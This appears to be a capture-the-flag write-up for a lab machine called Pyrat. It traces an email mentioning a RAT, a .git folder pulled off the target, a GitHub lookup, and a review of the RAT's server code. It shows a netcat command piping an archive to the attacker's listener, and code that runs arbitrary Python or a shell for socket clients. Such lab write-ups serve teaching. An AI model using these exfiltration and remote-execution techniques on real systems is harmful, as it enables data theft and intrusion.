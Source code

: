 ```console
Hello jose, I wanted to tell you that i have installed the RAT you posted on your GitHub page, i'll test it tonight so don't be scared if you see it running. Regards, Dbile Admen
```

This didn't really help at first but it will come into play later.

After this, I found a folder inside `/opt` called `dev`. There was nothing inside other than a `.git` directory. I compressed the directory and downloaded it to my machine.

```console
www-data@Pyrat:/opt$ tar -cvf "/tmp/dev.tar" ./dev/ 
./dev/
./dev/.git/
...
www-data@Pyrat:/tmp$ nc 10.11.75.248 443 < /tmp/dev.tar



m3ga@kali:~$ nc -lvnp 443 > dev.tar
listening on [any] 443 ...
connect to [10.11.75.248] from (UNKNOWN) [10.10.102.144] 37796
^C
m3ga@kali:~$ tar -xvf dev.tar 
./dev/
./dev/.git/
...
```

Looking for usernames within the git's config, I found `josemlwdf@github.com`.

```console
m3ga@kali:~/Dev$ git config --get user.email 
josemlwdf@github.com
```

At this point, I went to github and looked for a user called `josemlwdf` and I found them.
One of their [repositories](https://github.com/josemlwdf/PyRAT/tree/main) is called `pyRAT`.

![](<Pasted image 20241005220925.png>){: w="700" h="300" .center }

Since there was a mention of a "RAT" in the email we found, I was sure that this is the way to go. Going through the repository, I found the source code of the server side script that was running.

> I couldn't find a way to escalate my privileges to the user `think`. At this point I will try to get `root` access and not worry about user. I found a password in one of the older commits but I couldn't use it anywhere. (commit `ae73333`)
{: .prompt-warning}

### Code Review

This part of the code is the most interesting. Let's break it down and understand what's happening.
```python
def switch_case(client_socket, data):
    if data == 'admin':
        get_admin(client_socket)
    else:
        # Check socket is admin and downgrade if is not aprooved
        uid = os.getuid()
        if (uid == 0) and (str(client_socket) not in admins):
            change_uid()
        if data == 'shell':
            shell(client_socket)
            remove_socket(client_socket)
        else:
            exec_python(client_socket, data)
```
